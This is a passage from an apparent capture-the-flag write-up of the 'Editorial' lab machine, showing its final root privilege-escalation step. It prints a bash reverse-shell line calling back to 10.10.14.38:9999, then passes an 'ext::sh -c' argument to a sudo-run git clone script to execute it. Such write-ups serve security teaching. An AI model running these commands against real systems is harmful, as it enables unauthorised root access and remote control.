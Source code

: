 Finally we write a shell to root.sh in /tmp/root.sh and call the file using the python script resulting in running the root.sh file which would open a new shell on our VM as root user.

{% code overflow="wrap" %}
```bash
prod@editorial:/tmp$ echo 'bash -i >& /dev/tcp/10.10.14.38/9999 0>&1' > root.sh
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/root.sh'
```
{% endcode %}

Giving us as a new shell as root user.

<figure><img src="../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>
